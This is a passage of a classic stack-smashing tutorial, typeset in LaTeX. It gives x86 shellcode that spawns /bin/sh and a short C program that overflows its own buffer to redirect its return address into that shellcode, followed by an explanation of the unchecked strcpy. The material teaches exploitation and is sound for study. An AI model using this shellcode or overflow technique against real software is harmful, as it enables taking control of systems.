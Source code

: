 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[style=DOS]
exit
\end{lstlisting}

\section{Writing an Exploit (or how to mung the stack)}

Lets try to pull all our pieces together. We have the shellcode. We know it must be part of the string which we’ll use to overflow the buffer. We know we must point the return address back into the buffer. This example will demonstrate these points:

\begin{listing}[H]
\begin{verbatim}

char shellcode[] =
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\xdc\xff\xff\xff/bin/sh";

	char large_string[128];

void main() {
	char buffer[96];
	int i;
	long *long_ptr = (long *) large_string;

	for (i = 0; i < 32; i++)
	*(long_ptr + i) = (int) buffer;

	for (i = 0; i < strlen(shellcode); i++)
	large_string[i] = shellcode[i];

	strcpy(buffer,large_string);
}

\end{verbatim}
\caption{overflow1.c}
\label{listing:1}
\end{listing}

\begin{lstlisting}[style=DOS]
gcc -o exploit1 exploit1.c
\end{lstlisting}

\begin{lstlisting}[style=DOS]
./exploit1
\end{lstlisting}

\begin{lstlisting}[style=DOS]
exit
\end{lstlisting}

What we have done above is filled the array \texttt{large\_string[]} with the address of \texttt{buffer[]}, which is where our code will be. Then we copy our shellcode into the beginning of the large\_string string. \texttt{strcpy()} will then copy \texttt{large\_string} onto buffer without doing any bounds checking, and will overflow the return address, overwriting it with the address where our code is now located. Once we reach the end of main and it tried to return it jumps to our code, and execs a shell.
\end{document}
